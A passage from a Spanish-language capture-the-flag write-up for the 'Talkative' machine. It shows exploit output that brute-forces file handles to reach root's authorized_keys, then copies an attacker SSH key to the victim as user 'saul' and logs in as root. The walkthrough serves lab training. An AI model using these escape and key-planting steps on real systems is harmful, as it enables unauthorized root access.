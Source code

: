 ```shell
[*] Found media
[*] Found proc
[*] Found etc
[*] Found lib
[*] Found libx32
[*] Found cdrom
[*] Found root
[+] Match: root ino=18
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving '.ssh/authorized_keys'
[*] Found ..
[*] Found .backup
[*] Found .config
[*] Found .cache
[*] Found .local
[*] Found .ssh
[+] Match: .ssh ino=9718
[*] Brute forcing remaining 32bit. This can take a while...
[*] (.ssh) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf6, 0x25, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'authorized_keys'
[*] Found ..
[*] Found id_rsa.pub
[*] Found .
[*] Found known_hosts
[*] Found authorized_keys
[+] Match: authorized_keys ino=9720
[*] Brute forcing remaining 32bit. This can take a while...
[*] (authorized_keys) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf8, 0x25, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf8, 0x25, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
```

Ahora nos compartimos nuestra clave privada de atacante `(id_rsa)` a la máquina víctima, donde teníamos la sesión con el usuario `saul`
```shell
$ scp id_rsa saul@127.0.0.1:/tmp/id_rsa
saul@127.0.0.1's password: 
id_rsa                                                  100% 2602    56.9KB/s   00:00
```

Ahora podemos asignar permisos permisos a esta clave privada y utilizando la autenticación por clave asimétrica e intentar iniciar sesión como `root` en el equipo local (que es la máquina víctima ya que estamos en la sesión SSH con el usuario `saul`) 

```shell
saul@talkative:/tmp$ chmod 600 id_rsa 
saul@talkative:/tmp$ ssh -i id_rsa root@127.0.0.1
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 06 Aug 2024 07:53:16 PM UTC

  System load:                      0.0
  Usage of /:                       73.4% of 8.80GB
  Memory usage:                     70%
  Swap usage:                       29%
  Processes:                        452
```
